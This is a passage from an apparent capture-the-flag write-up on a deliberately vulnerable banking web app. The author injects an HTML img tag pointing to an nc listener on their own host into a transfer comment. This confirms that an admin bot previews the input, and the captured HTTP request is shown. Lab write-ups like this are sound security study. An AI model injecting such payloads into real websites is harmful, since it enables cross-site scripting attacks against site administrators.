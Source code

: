 After registering an account and logging in with it, we see a form that allows us to transfer "E-Coins" to other people.

![](/assets/images/bankrobber3.png)

After submitting the form with random values, we see a popup:

![](/assets/images/bankrobber4.png)

It seems possible that the admin will be previewing whatever we send. Let's try putting an `<img>` tag which points to `nc` listener instead of a web server so that we can preview the raw `HTTP` request.

```bash
$ sudo nc -lvnp 80
listening on [any] 80 ...
```

And we send the following in our comment:

```html
<img src="http;//10.10.14.30/">
```

After a while, we see the raw `HTTP` request!

```bash
$ sudo rlwrap nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.154] 49788
GET / HTTP/1.1
Referer: http://localhost/admin/index.php
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,*
Host: 10.10.XX.XX
```
